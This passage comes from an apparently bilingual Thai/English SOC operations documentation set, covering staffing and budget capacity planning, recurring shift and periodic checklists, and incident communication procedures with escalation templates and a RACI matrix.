| Windows Event | 5–20/host | 0.1–0.5 GB | 10%/ปี |
| DNS | 100–500 | 3–10 GB | 15%/ปี |
| Cloud | 20–200 | 1–5 GB | 30%/ปี |

---

## การวางแผนงบประมาณ

### สัดส่วนงบ SOC

| หมวด | % ของงบ SOC | รายละเอียด |
|:---|:---:|:---|
| **บุคลากร** | 55–65% | เงินเดือน, สวัสดิการ, ฝึกอบรม, certification |
| **เทคโนโลยี** | 25–35% | SIEM, SOAR, EDR, TI, cloud |
| **Operations** | 5–10% | สถานที่, ไฟฟ้า, เครือข่าย |
| **Professional Services** | 3–5% | ที่ปรึกษา, pentest |
| **Contingency** | 3–5% | IR retainer, surge capacity |

### Automation ROI

| ก่อน Automation | หลัง Automation | ประหยัด |
|:---|:---|:---|
| 50 alerts/analyst/กะ | 80 alerts/analyst/กะ | +37.5% capacity |
| Triage เฉลี่ย 15 นาที | 5 นาที ด้วย SOAR | ลด 66% |
| 3 analysts สำหรับ triage | 2 analysts | ลด 1 FTE |
| Enrichment 10 นาที | Auto 30 วินาที | เร็วขึ้น 95% |

---

## Growth Triggers

| Trigger | ตัวบ่งชี้ | Action |
|:---|:---|:---|
| Alert > capacity | Analysts ได้ > 50/กะ | เพิ่ม FTE |
| MTTD เพิ่ม | เทรนด์เกิน SLA | เพิ่ม monitoring capacity |
| MTTR เพิ่ม | เทรนด์เกิน SLA | เพิ่ม investigation capacity |
| Alert backlog | Unresolved > 24 ชม. | เพิ่ม triage capacity |
| Log sources ใหม่ | EPS เพิ่ม > 20% | ขยาย SIEM |
| M&A / ขยายกิจการ | Business units ใหม่ | ขยาย staff + tools |
| Attrition สูง | Turnover > 15% | ปรับค่าตอบแทน |

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| Analyst utilization rate | 70–80% |
| Alert-to-analyst ratio | ≤ 50/กะ |
| SIEM capacity headroom | ≥ 20% |
| Budget variance | ± 5% |
| Attrition rate | < 15% |
| Training hours/analyst | ≥ 40 ชม./ปี |
| Automation coverage | ≥ 50% |

---

## เครื่องมือคำนวณ FTE

### สูตรคำนวณ FTE พื้นฐาน

```
FTE ขั้นต่ำ (24/7) = (จำนวนชั่วโมงต่อสัปดาห์ × 52) / (ชั่วโมงทำงานต่อคน × 52 - วันลา)

ตัวอย่าง:
- Coverage: 168 ชม./สัปดาห์ (24/7)
- ชั่วโมงทำงาน: 40 ชม./สัปดาห์
- วันลา: 15 วัน/ปี + 13 วันหยุดนักขัตฤกษ์
- Practical availability: ~1,776 ชม./ปี

FTE = 168 × 52 / 1,776 = ~4.9 ≈ 5 FTE ต่อตำแหน่ง
สำหรับ 24/7 ที่ต้องมี 2 คนขั้นต่ำ = 10 FTE (analysts เท่านั้น)
```

### Alert Volume → FTE Mapping

| Alerts/วัน | เวลา Triage/Alert | FTE ที่ต้องใช้ (8h shift) |
|:---:|:---:|:---:|
| 50 | 10 นาที | 1.0 |
| 100 | 10 นาที | 2.1 |
| 200 | 10 นาที | 4.2 |
| 500 | 10 นาที | 10.4 |
| 500 | 5 นาที (with SOAR) | 5.2 |

## แผนการเติบโต

```mermaid
gantt
    title SOC Growth Plan
    dateFormat YYYY-Q
    section Phase 1 (Startup)
    3-4 FTE, 8/5        :2026-Q1, 2026-Q2
    section Phase 2 (Growth)
    6-8 FTE, 16/5       :2026-Q3, 2026-Q4
    section Phase 3 (Mature)
    12-15 FTE, 24/7     :2027-Q1, 2027-Q4
```

## Infrastructure Capacity Planning

| ทรัพยากร | สูตร | ตัวอย่าง |
|:---|:---|:---|
| **Storage** | EPS × 500 bytes × 86400 × retention days | 100 EPS × 30 วัน = ~130 GB |
| **SIEM CPU** | 1 core ต่อ 2,000 EPS | 500 EPS = 1 core |
| **SIEM RAM** | 16 GB base + 4 GB ต่อ 1,000 EPS | 500 EPS = 18 GB |
| **Network** | EPS × avg log size × 8 | 100 EPS × 500B = 0.4 Mbps |

## Capacity Planning Formulas

### Staffing Calculator

```
Required Analysts = (Alerts/Day × Avg Handle Time) / (Working Hours × Utilization)

ตัวอย่าง:
- Alerts/Day: 500
- Avg Handle Time: 15 min (0.25 hr)
- Working Hours: 8 hr/shift
- Utilization: 75%

= (500 × 0.25) / (8 × 0.75) = 125 / 6 = ~21 analysts (3 shifts)
```

### Growth Projection Model

| Year | Alert Volume | Analysts | Cost (THB) |
|:---|:---|:---|:---|
| Y1 | 500/day | 6 | 4.8M |
| Y2 | 750/day (+50%) | 8 | 6.4M |
| Y3 | 1,000/day (+33%) | 10 | 8.0M |
| Y4 | 1,200/day (+20%) | 11 | 8.8M |

### Capacity Alert Thresholds

| Resource | Warning | Critical | Action |
|:---|:---|:---|:---|
| Analyst utilization | > 75% | > 90% | Hire/Outsource |
| Alert queue depth | > 100 | > 500 | Add shift |
| SIEM storage | > 70% | > 85% | Expand/Archive |
| Response SLA miss | > 5% | > 15% | Review process |

### Technology Capacity Planning

| Resource | Current | 80% Threshold | Upgrade Plan |
|:---|:---|:---|:---|
| SIEM EPS | 2,000 | 1,600 | Scale indexer |
| Storage | 10 TB | 8 TB | Add nodes |
| Network | 1 Gbps | 800 Mbps | Upgrade link |

### Review Triggers

| Event | Action |
|:---|:---|
| Alert volume +25% | Capacity review |
| New log source | Resource assessment |

## เอกสารที่เกี่ยวข้อง

-   [SOC Team Structure](SOC_Team_Structure.en.md) — บทบาทและความรับผิดชอบ
-   [SOC Metrics & KPIs](SOC_Metrics.en.md) — การวัดผล
-   [Log Source Matrix](Log_Source_Matrix.en.md) — แหล่งข้อมูลและปริมาณ
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — ลดภาระงาน


---

## File: 06_Operations_Management/SOC_Checklists.en.md

# SOC Operational Checklists — Daily / Weekly / Monthly

> **Document ID:** CHK-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Manager

---

## Daily Checklist (Every Shift)

### Start of Shift
```
□ Read shift handoff notes from previous shift
□ Check SIEM dashboard — any P1/P2 open incidents?
□ Review alert queue — how many pending?
□ Verify all log sources are active (no gaps in data)
□ Check agent health — any endpoints disconnected?
□ Review threat intel feed — new IOCs published?
□ Confirm SOC communication channels operational (Slack/Teams)
```

### During Shift
```
□ Process all incoming alerts (target: queue < 30 min old)
□ Escalate P1/P2 incidents within SLA
□ Update open incident tickets with progress
□ Document false positives for tuning review
□ Monitor for recurring alerts (possible tuning opportunity)
□ Check email for user-reported suspicious activity
```

### End of Shift
```
□ All alerts triaged — nothing pending > 30 min
□ Open incidents updated with latest status
□ Write shift handoff notes:
  - Alerts processed (count)
  - Incidents opened/closed
  - Anything unusual
  - Pending items for next shift
□ Notify next shift of any ongoing P1/P2
```

---

## Weekly Checklist (Every Monday)

### Detection & Tuning
```
□ Review top 10 noisiest alert rules
  - Any rules > 50% false positive? → Tune or disable
  - Any new patterns to whitelist?
□ Review rules that haven't fired in 30 days
  - Are they still relevant? Or is data source missing?
□ Check Sigma rule updates (community releases)
□ Review threat landscape — any new techniques trending?
```

### Operations
```
□ SIEM storage usage check (disk space, retention)
□ Review SOC metrics dashboard:
  - MTTD / MTTR trends
  - Alert volume trends
  - SLA compliance
□ Agent update status — any endpoints need patching?
□ Review open incidents > 7 days (are they stuck?)
□ Check backup status of SIEM/log data
```

### Team
```
□ Weekly SOC standup meeting (15 min):
  - Incidents summary
  - Tuning requests
  - Knowledge sharing (interesting case of the week)
□ Assign training/learning task to each analyst
□ Review shift coverage for next week
```

---

## Monthly Checklist (1st Week of Month)

### Reporting
```
□ Generate monthly SOC report:
  - Total alerts processed
  - Incidents by severity (P1/P2/P3/P4)
  - MTTD / MTTR averages
  - Top 5 alert categories
  - SLA compliance %
  - Notable incidents summary
  - Recommendations
□ Present report to CISO/management
□ Update SOC maturity scorecard
```

### Detection Engineering
```
□ Review and deploy new Sigma rules (community + custom)
□ Validate detection coverage against MITRE ATT&CK heatmap
□ Review YARA rules — any new malware families to add?
□ Test 2 existing detection rules (do they still fire correctly?)
□ Update IOC block lists (IP, domain, hash)
```

### Infrastructure
```
□ SIEM health check:
  - Performance metrics (query speed, ingestion rate)
  - Storage capacity planning (next 3 months)
  - License usage review
□ Check TLS certificates (expiring within 60 days?)
□ Review user access — remove departed staff accounts
□ Verify backup and restore process (test restore)
□ Patch SOC tools (SIEM, EDR, ticketing)
```

### Process Improvement
```
□ Review closed incidents — any process gaps found?
□ Update playbooks if needed (new techniques, tools, contacts)
□ Schedule tabletop exercise (quarterly)
□ Review compliance requirements (PDPA, ISO, PCI)
□ Knowledge base — add any new SOPs or runbooks
```

### Team Development
```
□ 1-on-1 with each analyst (15 min):
  - Workload okay?
  - Training progress?
  - Any concerns?
□ Identify training needs for next month
□ Review on-call/shift rotation fairness
□ Recognize top performer (public acknowledgment)
```

---

## Quarterly Checklist

```
□ Tabletop exercise (use Tabletop_Exercises guide)
□ SOC maturity assessment (use soc_maturity_scorer.html)
□ Purple team exercise (2 beginner-level minimum)
□ Compliance audit review (quarterly controls check)
□ Budget review — actuals vs planned
□ Vendor/tool evaluation — any gaps to fill?
□ Update SOC Building Roadmap progress
□ Present quarterly report to Board/Executive team
```

---

## Annual Checklist

```
□ Full SOC maturity assessment (all 7 domains)
□ Major purple team / red team exercise
□ Comprehensive MITRE ATT&CK coverage review
□ All playbooks reviewed and updated
□ All Sigma/YARA rules validated
□ Staffing plan review (hiring, promotions, training budget)
□ Technology stack review (renew, replace, or add tools)
□ Business continuity / DR test for SOC operations
□ Compliance audit (ISO 27001, PCI DSS, PDPA)
□ Annual SOC report to Board
```

---

## Related Documents

- [Tier 1 Runbook](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md)
- [SOC Metrics](../06_Operations_Management/SOC_Metrics.en.md)
- [Shift Handoff](../06_Operations_Management/Shift_Handoff.en.md)
- [Tabletop Exercises](../05_Incident_Response/Tabletop_Exercises.en.md)
- [Purple Team Exercises](../05_Incident_Response/Purple_Team_Exercises.en.md)


---

## File: 06_Operations_Management/SOC_Checklists.th.md

# รายการตรวจสอบ SOC — รายวัน / รายสัปดาห์ / รายเดือน

> **รหัสเอกสาร:** CHK-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Manager

---

## รายการประจำวัน (ทุกกะ)

### เริ่มกะ
```
□ อ่าน handoff notes จากกะก่อน
□ เช็ค SIEM dashboard — มี P1/P2 เปิดอยู่ไหม?
□ ตรวจ alert queue — มีกี่ pending?
□ ตรวจ log sources ทำงานครบไหม
□ เช็ค agent health — มีเครื่องไหน disconnect ไหม?
□ ตรวจ threat intel — มี IOC ใหม่ไหม?
```

### ระหว่างกะ
```
□ Process alerts ทั้งหมด (เป้า: queue ไม่เก่ากว่า 30 นาที)
□ Escalate P1/P2 ตาม SLA
□ อัปเดต ticket ที่เปิดอยู่
□ บันทึก false positive เพื่อ tune
```

### จบกะ
```
□ Alert ทั้งหมดถูก triage แล้ว
□ เขียน handoff notes
□ แจ้งกะถัดไปเรื่อง P1/P2 ที่ยังเปิดอยู่
```

---

## รายการประจำสัปดาห์ (ทุกวันจันทร์)

```
□ ตรวจ 10 rules ที่ดังสุด → tune ถ้า FP > 50%
□ ตรวจ rules ที่ไม่ fire 30 วัน
□ เช็ค Sigma rule updates ใหม่
□ ตรวจ disk space / SIEM storage
□ ตรวจ SOC metrics (MTTD/MTTR/SLA)
□ ตรวจ incidents ที่เปิด > 7 วัน
□ ประชุม SOC standup 15 นาที
```

---

## รายการประจำเดือน (สัปดาห์แรก)

```
□ สร้างรายงาน SOC ประจำเดือน + present ให้ผู้บริหาร
□ Deploy Sigma rules ใหม่
□ ตรวจ MITRE ATT&CK coverage
□ ทดสอบ detection rules 2 ตัว
□ SIEM health check + capacity planning
□ ตรวจ TLS certificates
□ Review user access — ลบบัญชีคนออก
□ ทดสอบ backup restore
□ 1-on-1 กับ analyst ทุกคน (15 นาที)
```

---

## รายการประจำไตรมาส

```
□ Tabletop exercise
□ SOC maturity assessment
□ Purple team exercise (2 ชุดขั้นต่ำ)
□ ตรวจ compliance
□ ตรวจ budget
□ รายงานไตรมาสให้ผู้บริหาร
```

---

## รายการประจำปี

```
□ Full maturity assessment
□ Red/Purple team ใหญ่
□ ตรวจ playbooks + rules ทั้งหมด
□ ทบทวน staffing + training budget
□ ทบทวน technology stack
□ DR test
□ Compliance audit (ISO/PCI/PDPA)
□ รายงานประจำปีให้คณะกรรมการ
```

---

## เช็คลิสต์รายสัปดาห์

| # | รายการ | ผู้รับผิดชอบ | สถานะ |
|:---:|:---|:---|:---:|
| 1 | ทบทวน top alerts ของสัปดาห์ | SOC Manager | ☐ |
| 2 | Review false positive trends | Detection Engineer | ☐ |
| 3 | อัปเดต TI feeds สถานะ | TI Analyst | ☐ |
| 4 | ตรวจสอบ log source health | Tier 1 | ☐ |
| 5 | Review open tickets > 48h | Shift Lead | ☐ |
| 6 | ทบทวน escalations ของสัปดาห์ | SOC Manager | ☐ |
| 7 | อัปเดต SOC wiki/knowledge base | ทีม SOC | ☐ |

## เช็คลิสต์รายเดือน

| # | รายการ | ผู้รับผิดชอบ | สถานะ |
|:---:|:---|:---|:---:|
| 1 | สรุป Monthly SOC Report | SOC Manager | ☐ |
| 2 | ทบทวน SLA compliance | SOC Manager | ☐ |
| 3 | ทบทวน detection rule performance | Detection Engineer | ☐ |
| 4 | อัปเดต playbooks ที่จำเป็น | SOC Lead | ☐ |
| 5 | ทบทวน access control | SOC Manager | ☐ |
| 6 | ทดสอบ backup/restore | IT + SOC | ☐ |
| 7 | ทบทวน vendor/tool licenses | SOC Manager | ☐ |
| 8 | จัด team meeting / retrospective | SOC Manager | ☐ |

## เช็คลิสต์รายไตรมาส

| # | รายการ | ผู้รับผิดชอบ | สถานะ |
|:---:|:---|:---|:---:|
| 1 | จัด Tabletop Exercise | SOC Manager | ☐ |
| 2 | ทบทวน SOC Maturity Assessment | SOC Manager + CISO | ☐ |
| 3 | ทบทวน MITRE ATT&CK coverage | Detection Engineer | ☐ |
| 4 | ทดสอบ IR playbooks (purple team) | SOC Team | ☐ |
| 5 | ทบทวน staffing/capacity | SOC Manager | ☐ |
| 6 | Compliance gap review | Compliance | ☐ |

## SOC Shift Checklists

### Daily Opening Checklist

- [ ] ตรวจสอบ handoff notes จากกะก่อน
- [ ] Review open incidents ที่ค้างอยู่
- [ ] ตรวจ SIEM health dashboard
- [ ] ยืนยัน log source ทั้งหมดส่งข้อมูลปกติ
- [ ] เช็ค TI feed updates
- [ ] Review pending alerts queue
- [ ] Check communication channels

### Weekly Review Checklist

- [ ] สรุป alert trends ประจำสัปดาห์
- [ ] Review false positive rates
- [ ] ปรับปรุง detection rules ที่มีปัญหา
- [ ] Update use case documentation
- [ ] Team knowledge sharing session
- [ ] Review SLA compliance

### Monthly SOC Health Check

- [ ] KPI dashboard review กับ management
- [ ] Maturity assessment update
- [ ] Training plan progress review
- [ ] Vendor tool health assessment
- [ ] Capacity planning review
- [ ] Incident trend analysis report

### Quarterly SOC Review Topics

| Topic | Owner | Output |
|:---|:---|:---|
| USE case effectiveness | Engineer | Tuning report |
| Tool utilization | Manager | License review |
| Training gaps | Lead | Training plan |
| Process improvement | All | Updated SOPs |

### Checklist Version Control

| Version | Date | Change |
|:---|:---|:---|
| 1.0 | Initial | Baseline |

## เอกสารที่เกี่ยวข้อง

- [คู่มือ Tier 1](../05_Incident_Response/Runbooks/Tier1_Runbook.th.md)
- [ตัวชี้วัด SOC](SOC_Metrics.th.md)
- [ส่งมอบกะ](Shift_Handoff.th.md)


---

## File: 06_Operations_Management/SOC_Communication.en.md

# SOC Communication SOP

This document defines the standard communication procedures for SOC operations — internal team communication, stakeholder notifications, and external reporting.

---

## Communication Channels

| Channel | Use For | SLA |
|:---|:---|:---|
| **Ticketing System** | Incident communication, audit trail, all case work | Per incident SLA |
| **Chat (Teams/Slack)** | Quick coordination, shift notifications, FYI alerts | < 5 min response |
| **Phone** | Critical escalation, time-sensitive matters | Immediate |
| **Email** | Non-urgent updates, reports, formal communication | < 1 hour |
| **War Room** | Active Critical/High incident coordination | Real-time |

## Communication Matrix

| Scenario | Who | Channel | Frequency |
|:---|:---|:---|:---|
| Alert triage update | Shift Lead | Ticket | Per alert |
| Shift handoff | Incoming + Outgoing Lead | Verbal + Log | Per shift |
| Incident escalation | SOC Lead → SOC Manager | Phone + Email | As needed |
| Daily SOC brief | SOC Manager → Team | Email/Chat | Daily |
| Weekly report | SOC Manager → CISO | Email | Weekly |
| Security advisory | SOC → All Staff | Email | As needed |
| Breach notification | CISO → Affected parties | Formal letter | Per regulation |

## Notification Templates

### Internal Incident Notification

```
Subject: [SEVERITY] Security Incident #[ID] - [Brief Description]

Severity: [Critical/High/Medium/Low]
Status: [Detected/Investigating/Contained/Resolved]
Impact: [Description of affected systems/users]
Current Actions: [What SOC is doing]
Next Steps: [Planned actions]
Contact: [SOC Lead name and channel]
```

### Management Escalation

```
Subject: 🚨 ESCALATION - Incident #[ID] - [Severity]

Summary: [1-2 sentence description]
Business Impact: [Affected services, users, data]
Timeline: [Key timestamps]
Actions Taken: [Containment/investigation steps]
Decision Required: [What approval/guidance is needed]
```

### External / Regulatory Notification

```
Subject: Security Incident Notification - [Organization Name]

Date: [YYYY-MM-DD]
Incident Reference: #[ID]
Nature of Incident: [Brief description]
Personal Data Affected: [Yes/No — if yes, describe scope]
Containment Status: [Contained/Under Investigation]
Remediation Actions: [Steps taken and planned]
DPO Contact: [Name, Email, Phone]
```

## Stakeholder RACI Matrix

| Activity | SOC Analyst | SOC Lead | SOC Manager | CISO | Legal/DPO |
|:---|:---:|:---:|:---:|:---:|:---:|
| Initial alert triage | **R** | I | | | |
| Incident escalation | R | **A** | I | | |
| Internal notification | | R | **A** | I | |
| External breach notification | | | R | **A** | **R** |
| Press/media communication | | | I | R | **A** |
| Regulatory reporting | | | R | A | **R** |
| Post-incident review | R | R | **A** | I | I |

*R = Responsible, A = Accountable, C = Consulted, I = Informed*


## Crisis Communication Plan

During P1/P2 incidents, activate the crisis communication chain:

```mermaid
graph TD
    Detect["🔍 Incident Detected"] --> T1["T1 → Ticket + Chat"]
    T1 --> T2["T2 → Validate + Investigate"]
    T2 --> Confirm{"Confirmed Incident?"}
    Confirm -->|No| Close["Close + Document"]
    Confirm -->|Yes| Bridge["🔴 Open War Room / Bridge Call"]
    Bridge --> Notify_Mgmt["📞 SOC Manager → CISO (15 min)"]
    Notify_Mgmt --> Assess{"Data Breach?"}
    Assess -->|Yes| Legal["⚖️ Legal + DPO (1h)"]
    Assess -->|No| Continue["Continue IR"]
    Legal --> External["📢 External Comms (if required)"]

    style Bridge fill:#f44336,color:#fff
    style Legal fill:#FF9800,color:#fff
```

### War Room Activation Criteria
| Condition | Action |
|:---|:---|
| P1 incident confirmed | Open bridge call immediately |
| Multiple systems affected | Open bridge call |
| Data breach suspected | Add Legal/DPO to bridge |
| Media/regulatory attention | Add Communications team |
| Business disruption > 1 hour | Add Business Unit leaders |

### War Room Roles
| Role | Responsibility |
|:---|:---|
| **Incident Commander** | Leads the bridge call, makes decisions |
| **Technical Lead** (T2/T3) | Provides investigation updates every 15 min |
| **Communications Lead** | Drafts internal/external messaging |
| **Scribe** | Documents decisions and actions in real-time |
| **Business Liaison** | Updates affected business units |

## On-Call Procedures

### On-Call Rotation
| Role | Coverage | Response SLA |
|:---|:---|:---|
| T1 Analyst (on-shift) | 24/7 | Immediate |
| T2 Analyst (on-call) | After hours | ≤ 15 min |
| SOC Manager (on-call) | After hours | ≤ 30 min |
| IR Lead (on-call) | After hours | ≤ 30 min |
| CISO (emergency) | P1 only | ≤ 1 hour |

### After-Hours Escalation
```
P1 Critical:
  1. T1 calls T2 on-call (phone, not chat)
  2. T2 assesses → calls IR Lead if confirmed
  3. IR Lead calls SOC Manager
  4. SOC Manager calls CISO if:
     - Data breach confirmed
     - Business impact > $100K
     - Media/regulatory involvement

P2 High:
  1. T1 creates ticket + messages T2 on-call (chat)
  2. T2 responds within 15 min
  3. T2 handles or schedules for next business day

P3-P4:
  1. T1 documents in ticket
  2. Next shift handles during business hours
```

## Communication Do's and Don'ts

| ✅ Do | ❌ Don't |
|:---|:---|
| State facts only (what we know) | Speculate about cause or blame |
| Use TLP labels on all messages | Share incident details on personal channels |
| Update stakeholders at regular intervals | Go silent during active incidents |
| Use approved templates | Draft ad-hoc external communications |
| Document all decisions and actions | Make verbal-only agreements |
| Include timestamps in all updates | Use ambiguous time references |
| Confirm receipt of critical messages | Assume messages were received |
| Use secure channels for sensitive data | Discuss PII in group chats |

## Stakeholder Communication Frequency

| Audience | Normal Ops | P3/P4 Incident | P1/P2 Incident |
|:---|:---|:---|:---|
| SOC Team | Daily standup | Per-ticket updates | War room — continuous |
| SOC Manager | Weekly report | Daily update | Every 30 min |
| CISO | Monthly report | Weekly mention | Every 1 hour |
| Business Units | Quarterly briefing | If directly affected | Immediate if affected |
| Legal/DPO | As needed | If PII involved | Immediate if breach |
| Board/Executives | Annual report | Not required | CEO-level briefing |

## Communication Audit Checklist

| Item | Frequency | Owner | Status |
|:---|:---|:---|:---:|
| Escalation contact list current | Monthly | SOC Manager | ☐ |
| Notification templates reviewed | Quarterly | SOC Lead | ☐ |
| War room procedure tested | Quarterly | SOC Manager | ☐ |
| External notification process tested | Annually | CISO + Legal | ☐ |
| Stakeholder communication preferences updated | Annually | SOC Manager | ☐ |

## Related Documents

- [Shift Handoff Standard](Shift_Handoff.en.md)
- [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md)
- [IR Framework](../05_Incident_Response/Framework.en.md)

## References

- [NIST SP 800-61r2](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)


---

## File: 06_Operations_Management/SOC_Communication.th.md

# ขั้นตอนการสื่อสารของ SOC (SOC Communication SOP)

เอกสารนี้กำหนดขั้นตอนมาตรฐานสำหรับการสื่อสารของ SOC — ภายในทีม, การแจ้งผู้มีส่วนได้ส่วนเสีย, และการรายงานภายนอก

---

## ช่องทางการสื่อสาร

| ช่องทาง | ใช้สำหรับ | SLA |
|:---|:---|:---|
| **ระบบ Ticketing** | การสื่อสาร incident, audit trail | ตาม SLA |
| **แชท (Teams/Slack)** | ประสานงานด่วน, แจ้งข้อมูล | < 5 นาที |
| **โทรศัพท์** | Escalation เร่งด่วน | ทันที |
| **อีเมล** | อัปเดตไม่เร่งด่วน, รายงาน | < 1 ชม. |
| **War Room** | ประสานงาน incident Critical/High | เรียลไทม์ |

## ตารางการสื่อสาร

| สถานการณ์ | ใคร | ช่องทาง | ความถี่ |
|:---|:---|:---|:---|
| อัปเดต alert triage | Shift Lead | Ticket | ทุก alert |
| ส่งมอบกะ | Incoming + Outgoing Lead | วาจา + Log | ทุกกะ |
| Escalation incident | SOC Lead → SOC Manager | โทร + อีเมล | ตามความจำเป็น |
| บรีฟ SOC รายวัน | SOC Manager → ทีม | อีเมล/แชท | ทุกวัน |
| รายงานรายสัปดาห์ | SOC Manager → CISO | อีเมล | ทุกสัปดาห์ |
| แจ้งเตือนความปลอดภัย | SOC → พนักงานทั้งหมด | อีเมล | ตามความจำเป็น |
| แจ้งเตือน breach | CISO → ผู้ได้รับผลกระทบ | จดหมายอย่างเป็นทางการ | ตามข้อบังคับ |

### การแจ้งเตือนภายนอก / หน่วยงานกำกับดูแล

```
เรื่อง: แจ้งเหตุการณ์ด้านความปลอดภัย - [ชื่อองค์กร]

วันที่: [ปปปป-ดด-วว]
หมายเลขอ้างอิง: #[ID]
ลักษณะเหตุการณ์: [คำอธิบายสั้น]
ข้อมูลส่วนบุคคลที่ได้รับผลกระทบ: [ใช่/ไม่ — ถ้าใช่ ระบุขอบเขต]
สถานะการควบคุม: [ควบคุมแล้ว/อยู่ระหว่างสอบสวน]
มาตรการแก้ไข: [ขั้นตอนที่ดำเนินการและแผนงาน]
ผู้ติดต่อ DPO: [ชื่อ, อีเมล, โทรศัพท์]
```

## ตาราง RACI ผู้มีส่วนได้ส่วนเสีย

| กิจกรรม | นักวิเคราะห์ | SOC Lead | SOC Manager | CISO | กฎหมาย/DPO |
|:---|:---:|:---:|:---:|:---:|:---:|
| การคัดกรองแจ้งเตือนเบื้องต้น | **R** | I | | | |
| การยกระดับเหตุการณ์ | R | **A** | I | | |
| การแจ้งเตือนภายใน | | R | **A** | I | |
| การแจ้งเตือนภายนอกเรื่อง Breach | | | R | **A** | **R** |
| การสื่อสารกับสื่อ | | | I | R | **A** |
| การรายงานต่อหน่วยงานกำกับ | | | R | A | **R** |
| การทบทวนหลังเหตุการณ์ | R | R | **A** | I | I |

*R = ผู้รับผิดชอบ, A = ผู้อนุมัติ, C = ผู้ให้คำปรึกษา, I = ผู้รับทราบ*


## แผนสื่อสารวิกฤต

เมื่อเกิด incident P1/P2 ให้เปิดใช้ chain การสื่อสารวิกฤต:

```mermaid
graph TD
    Detect["🔍 ตรวจพบ Incident"] --> T1["T1 → Ticket + Chat"]
    T1 --> T2["T2 → ตรวจสอบ + สืบสวน"]
    T2 --> Confirm{"ยืนยัน Incident?"}
    Confirm -->|ไม่| Close["ปิด + บันทึก"]
    Confirm -->|ใช่| Bridge["🔴 เปิด War Room / Bridge Call"]
    Bridge --> Notify_Mgmt["📞 SOC Manager → CISO (15 นาที)"]
    Notify_Mgmt --> Assess{"ข้อมูลรั่ว?"}
    Assess -->|ใช่| Legal["⚖️ Legal + DPO (1 ชม.)"]
    Assess -->|ไม่| Continue["ดำเนินการ IR ต่อ"]
    Legal --> External["📢 สื่อสารภายนอก (ถ้าจำเป็น)"]

    style Bridge fill:#f44336,color:#fff
    style Legal fill:#FF9800,color:#fff
```

### เกณฑ์เปิด War Room
| เงื่อนไข | การดำเนินการ |
|:---|:---|
| ยืนยัน P1 incident | เปิด bridge call ทันที |
| หลายระบบโดน | เปิด bridge call |
| สงสัยข้อมูลรั่ว | เพิ่ม Legal/DPO เข้า bridge |
| สื่อ/หน่วยงานกำกับสนใจ | เพิ่มทีม Communications |
| หยุดชะงักธุรกิจ > 1 ชม. | เพิ่ม Business Unit leaders |

### บทบาทใน War Room
| บทบาท | ความรับผิดชอบ |
|:---|:---|
| **Incident Commander** | นำ bridge call, ตัดสินใจ |
| **Technical Lead** (T2/T3) | อัปเดตการสืบสวนทุก 15 นาที |
| **Communications Lead** | ร่าง messaging ภายใน/ภายนอก |
| **Scribe** | บันทึกการตัดสินใจและ action แบบ real-time |
| **Business Liaison** | อัปเดต business units ที่ได้รับผลกระทบ |

## ขั้นตอน On-Call

### ตาราง On-Call
| บทบาท | Coverage | SLA การตอบ |
|:---|:---|:---|
| T1 Analyst (ประจำกะ) | 24/7 | ทันที |
| T2 Analyst (on-call) | นอกเวลา | ≤ 15 นาที |
| SOC Manager (on-call) | นอกเวลา | ≤ 30 นาที |
| IR Lead (on-call) | นอกเวลา | ≤ 30 นาที |
| CISO (ฉุกเฉิน) | P1 เท่านั้น | ≤ 1 ชม. |

### การ Escalate นอกเวลา
```
P1 วิกฤต:
  1. T1 โทรหา T2 on-call (โทรศัพท์ ไม่ใช่ chat)
  2. T2 ประเมิน → โทร IR Lead ถ้ายืนยัน
  3. IR Lead โทร SOC Manager
  4. SOC Manager โทร CISO ถ้า:
     - ยืนยันข้อมูลรั่ว
     - ผลกระทบ > 3 ล้านบาท
     - สื่อ/หน่วยงานกำกับเกี่ยวข้อง

P2 สูง:
  1. T1 สร้าง ticket + ส่ง chat ถึง T2 on-call
  2. T2 ตอบภายใน 15 นาที
  3. T2 จัดการ หรือนัดวันทำการถัดไป

P3-P4:
  1. T1 บันทึกใน ticket
  2. กะถัดไปจัดการในเวลาทำการ
```

## สิ่งที่ควรทำ / ไม่ควรทำ ในการสื่อสาร

| ✅ ควรทำ | ❌ ไม่ควรทำ |
|:---|:---|
| ระบุข้อเท็จจริงเท่านั้น | คาดเดาสาเหตุหรือโทษใคร |
| ใช้ TLP label ทุกข้อความ | แชร์รายละเอียด incident ในช่องส่วนตัว |
| อัปเดต stakeholders สม่ำเสมอ | เงียบไประหว่าง incident |
| ใช้ template ที่อนุมัติแล้ว | ร่างสื่อสารภายนอกเอง |
| บันทึกทุกการตัดสินใจและ action | ตกลงด้วยวาจาอย่างเดียว |
| ใส่ timestamp ทุกอัปเดต | ใช้เวลาที่คลุมเครือ |
| ยืนยันว่าได้รับข้อความสำคัญ | สมมติว่าข้อความถูกอ่านแล้ว |
| ใช้ช่องทางปลอดภัยสำหรับข้อมูลอ่อนไหว | พูดเรื่อง PII ใน group chat |

## ความถี่สื่อสาร Stakeholder

| ผู้รับ | ปกติ | P3/P4 Incident | P1/P2 Incident |
|:---|:---|:---|:---|
| ทีม SOC | Standup ประจำวัน | อัปเดตตาม ticket | War room — ต่อเนื่อง |
| SOC Manager | รายงานสัปดาห์ | อัปเดตรายวัน | ทุก 30 นาที |
| CISO | รายงานเดือน | กล่าวถึงสัปดาห์ | ทุก 1 ชม. |
| Business Units | ไตรมาส | ถ้ากระทบโดยตรง | ทันทีถ้ากระทบ |
| Legal/DPO | ตามความจำเป็น | ถ้ามี PII | ทันทีถ้าข้อมูลรั่ว |
| Board/ผู้บริหาร | รายปี | ไม่จำเป็น | CEO-level briefing |

## รายการตรวจสอบการสื่อสาร

| รายการ | ความถี่ | ผู้รับผิดชอบ | สถานะ |
|:---|:---|:---|:---:|
| รายชื่อผู้ติดต่อยกระดับเป็นปัจจุบัน | รายเดือน | SOC Manager | ☐ |
| ทบทวน Template การแจ้งเตือน | รายไตรมาส | SOC Lead | ☐ |
| ทดสอบขั้นตอน War Room | รายไตรมาส | SOC Manager | ☐ |
| ทดสอบกระบวนการแจ้งเตือนภายนอก | รายปี | CISO + กฎหมาย | ☐ |

## สิ่งที่ควรทำและไม่ควรทำ
